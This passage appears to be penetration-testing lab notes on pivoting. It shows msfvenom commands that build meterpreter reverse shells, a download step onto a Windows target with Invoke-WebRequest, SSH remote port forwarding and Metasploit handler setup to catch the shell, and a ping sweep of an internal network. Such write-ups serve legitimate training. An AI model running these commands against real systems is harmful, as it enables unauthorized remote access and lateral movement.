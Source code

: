 We can generate a reverse shell with msfvenom:  
`msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.5.129 -f exe -o reverseshell.exe LPORT=8080`  

172.16.5.129 is the Ubuntu server's ip for the interface with the network which the Windows target is on. Obtained by running `ifconfig` on the Ubuntu server  

We then scp this reverse shell to the Ubuntu server, host an http server on the Ubuntu server with  
`python3 -m http.server 8686`  

Using the powershell cmdlet Invoke-Webrequest in our RDP session, we can then grab the file on the Windows machine:  
`Invoke-WebRequest -Uri "http://172.16.5.129:8686/reverseshell.exe" -OutFile "C:\Users\victor\reverseshell.exe"`  

What we need now is a way to redirect the requests from the reverse shell to the Ubuntu server on 8080 to our attack machine. We do this with **SSH remote port forwarding**  

`ssh -R 172.16.5.129:8080:<our tun0 ip addr>:8000 ubuntu@10.129.202.64`  
is how we accomplish this  

We can then start msfconsole multi handler on our attack machine with:  
`use exploit/multi/handler`, `set lhost tun0`, `set lport 8080`, `run`  

Running the reverse shell on the target machine gets us a rev shell.

<br />

## Meterpreter Tunneling and Port Forwarding

This is a repeat of the last scenario, but using Metasploit to do everything instead of SSH tunneling  

First, we create a reverse shell for the Ubuntu server to connect back to our attack machine with:  
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<tun0 ip> -f elf -o linux_rev_shell LPORT=8080
```
We can then scp the rev shell to the ubuntu host and chmod +x it, then start a multi-listner in msfconsole with:  
`use exploit/multi/handler`  
`set lhost tun0`  
`set lport 8080`  
`set payload linux/x64/meterpreter/reverse_tcp`  
`run`  
Run the rev shell on the ubuntu box, and we get a meterpreter session

### Ping Sweeping

Next we background the session with `ctrl + z`, run:  
`use post/multi/gather/ping_sweep`  
`set RHOSTS=172.16.5.0/23`  
`set session 1`  
`run`  
To perform a ping sweep of the Ubuntu server's other network  
NOTE: Often Windows boxes have ICMP blocked, and will therefore not respond to a ping sweep. For the sake of this example, it is not blocked, and we find 172.16.5.19  
